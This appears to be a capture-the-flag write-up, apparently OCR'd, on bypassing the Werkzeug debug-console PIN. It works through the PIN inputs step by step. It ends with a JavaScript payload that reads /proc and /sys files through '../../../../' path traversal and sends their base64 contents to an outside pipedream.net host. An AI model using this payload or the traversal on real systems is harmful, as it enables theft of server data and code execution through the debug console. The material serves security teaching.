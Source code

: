 https://www.daehee.com/werkzeug-console-pin-exploit/

If you are interested in checking the source which generates the pin here it is: https://github.com/pallets/werkzeug/blob/main/src/werkzeug/debug/__init__.py#L138

We will be using this script to generate the pin: https://github.com/wdahlenburg/werkzeug-debug-console-bypass


As we have alocal setup most of the things we already know:

>username is the user who started this Flask
root

>modname
flask.app

>getattr(app, '__name__', getattr (app .__ class__, '__name__'))
Flask
>getattr(mod, '__file__', None) #is the absolute path of an app.py in the flask directory
/usr/local/lib/python3.11/site-packages/flask/app.py

>uuid.getnode()

```bash
$ cat /sys/class/net/eth0/address 
02:42:ac:11:00:04
root@9d0ff0081967:/app# python3
Python 3.9.7 (default, Sep  3 2021, 02:02:37) 
[GCC 10.2.1 20210110] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> "".join("02:42:ac:11:00:04".split(":"))
'0242ac110004'
>>> print(0x0242ac110004)
2485377892356

```

get_machine_id() 

Machine Id: /etc/machine-id + /proc/sys/kernel/random/boot_id + /proc/self/cgroup
With the path traversal we can easily read the values of these files


Here's the final payload to get all the required info:


```js
""
files = ["/sys/class/net/eth0/address","/proc/sys/kernel/random/boot_id","/proc/self/cgroup"]




// loop through files fetch and send to server

files.forEach(file => {
    fetch(`/api/ipc_download?file=../../../../${file}`, {
        credentials: 'include'
    }).then(response => response.text())
        .then(data => {
            const encodedData = btoa(data);
            const url = `https://en2celr7rewbul.m.pipedream.net/?flag=${encodedData}`;
            fetch(url);
        });
});
```
